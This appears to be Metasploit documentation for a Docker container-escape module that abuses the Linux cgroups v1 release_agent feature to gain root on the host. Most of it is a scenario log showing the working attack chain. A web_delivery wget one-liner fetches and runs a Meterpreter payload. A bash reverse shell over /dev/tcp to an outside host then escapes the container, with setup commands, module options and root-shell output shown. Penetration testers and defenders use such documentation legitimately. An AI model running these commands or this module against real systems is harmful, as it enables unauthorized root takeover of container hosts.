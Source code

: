 ## Vulnerable Application

This exploit module takes advantage of a Docker image which has either the privileged flag, or SYS_ADMIN Linux capability.
If the host kernel is vulnerable, its possible to escape the Docker image and achieve root on the host operating system.

A vulnerability was found in the Linux kernel's cgroup_release_agent_write in the kernel/cgroup/cgroup-v1.c function.
This flaw, under certain circumstances, allows the use of the cgroups v1 release_agent feature to escalate privileges
and bypass the namespace isolation unexpectedly.

More simply put, cgroups v1 has a feature called release_agent that runs a program when a process in the cgroup terminates.
If notify_on_release is enabled, the kernel runs the release_agent binary as root. By editing the release_agent file,
an attacker can execute their own binary with elevated privileges, taking control of the system. However, the release_agent
file is owned by root, so only a user with root access can modify it.

### Docker Setup

`sudo docker run --rm -it --privileged ubuntu:20.04 bash`

or

`sudo docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:20.04 bash`

You may want to install `wget` to make initial exploitation easier as well:

```
apt-get update
apt-get install -y wget
```

## Verification Steps

1. Install Docker and start a docker container
2. Start msfconsole
3. Get a shell on the docker image as root. 
4. Do: `use exploit/linux/local/docker_cgroup_escape`
5. Do: `set lhost [ip]`
6. Do: `set session [#]`
7. Do: `run`
8. You should get a root shell on the host OS.

## Options

## Scenarios

### Ubuntu 18.04 LTS with 4.15.0-96-generic kernel and Docker Ubuntu 20.04

Initial Access

```
resource (docker.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (docker.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (docker.rb)> set srvport 8181
srvport => 8181
resource (docker.rb)> set target 7
target => 7
resource (docker.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (docker.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/QZWpVr8t
[*] Server started.
[*] Run the following command on the target machine:
wget -qO dLFtachL --no-check-certificate http://1.1.1.1:8181/QZWpVr8t; chmod +x dLFtachL; ./dLFtachL& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 2.2.2.2    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:60288) at 2023-11-28 13:38:39 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/) > getuid
Server username: root
(Meterpreter 1)(/) > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 4.15.0-96-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

Exploit the Docker Escape

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/local/docker_cgroup_escape
[*] Using configured payload cmd/unix/reverse_bash
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set lhost 1.1.1.1
lhost => 1.1.1.1
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set lport 9988
lport => 9988
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set verbose true
verbose => true
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > run

[+] bash -c '0<&181-;exec 181<>/dev/tcp/1.1.1.1/9988;sh <&181 >&181 2>&181'
[*] Started reverse TCP handler on 1.1.1.1:9988 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Unable to determine host OS, this check method is unlikely to be accurate if the host isn't Ubuntu
[+] The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-96-generic is vulnerable
[*] Creating folder for mount: /tmp/eH7EY
[*] Creating directory /tmp/eH7EY
[*] /tmp/eH7EY created
[*] Mounting cgroup
[*] Creating folder in cgroup for exploitation: /tmp/eH7EY/qe0oj7G
[*] Creating directory /tmp/eH7EY/qe0oj7G
[*] /tmp/eH7EY/qe0oj7G created
[*] Enabling notify on release for group qe0oj7G
[*] Determining the host OS path for image
[*] Host OS path for image: /var/lib/docker/overlay2/c8b82079007d1f6dcf042787cd450ffe045595be11c29ca5b119d1802cfaa22f/diff
[*] Setting release_agent path to: /var/lib/docker/overlay2/c8b82079007d1f6dcf042787cd450ffe045595be11c29ca5b119d1802cfaa22f/diff/tmp/KksBaCbF
[*] Uploading payload to /tmp/KksBaCbF
[*] Writing '/tmp/KksBaCbF' (88 bytes) ...
[*] Triggering payload with command: sh -c "echo $$ > /tmp/eH7EY/qe0oj7G/cgroup.procs"
[*] Command shell session 2 opened (1.1.1.1:9988 -> 2.2.2.2:54990) at 2023-11-28 14:39:10 -0500
[*] Cleanup: Unmounting /tmp/eH7EY

FDjfSpoVnqvGmrtBOSRfABBgFMmcSkbT
id
uid=0(root) gid=0(root) groups=0(root)
cat /etc/os-release
NAME="Ubuntu"
VERSION="18.04 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```
